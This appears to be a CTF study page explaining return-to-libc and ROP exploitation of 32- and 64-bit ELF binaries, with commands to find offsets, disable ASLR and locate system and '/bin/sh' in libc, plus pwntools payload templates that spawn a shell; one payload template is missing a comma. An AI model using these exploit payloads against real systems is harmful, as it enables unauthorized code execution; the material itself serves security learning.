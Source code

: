 ### Return to Lib-C


---

[one gadget](https://github.com/david942j/one_gadget)

ROP exploit - Return oriented programming, pass `/bin/sh` as input data for system call in libc to get shell.

```py
NX enabled - Shellcode method cannot be used
ASLR enabled - address space layout randomization to prevent boff attacks
```

Example - same as was used in `Shellcode`

`Dynamically linked` elf files, start returning to libc and try to get a shell

```py
32 bit ELF
cyclic 100
run <payload>
cyclic -l <value in EIP>
search -t string "/bin/sh", grab the address.
ldd <elf file> (different libc address everytime)
Disable aslr : echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
ldd <elf file> (same libc address everytime)
readelf -s <libc library>
```

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/3e26593c-9e8f-47ff-8236-86091f1d3793)

Offset from the base of libc to system : `00045040`

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/4e23a720-a72d-4615-a088-3f8ee15d33db)

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/d67bc19e-4a73-43a4-9ce8-af17c67e1ad9)

```py
payload=flat(
   asm('nop')*padding, # padding up to EIP
   system, # Address of system function in libc
   0x0, # Return pointer
   binsh # Address of /bin/sh in libc
)
```

---

#### 64 bit ELF

```py
ropper --file <filename> --search "pop rdi"

payload=flat(
   asm('nop')*padding, # padding up to RIP
   pop_rdi, # pop the address into the RDI register
   binsh # Address of /bin/sh in libc
   system, # Address of system function in libc
)
```

---

#### Example

```py
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
ldd vulm-32 -> grab the libc.so.* address
readelf -s /lib32/libc.so.6 | grep system -> address of system
strings -a -t x /lib32/libc.so.6 | grep /bin/sh -> Getting the location of /bin/sh
```
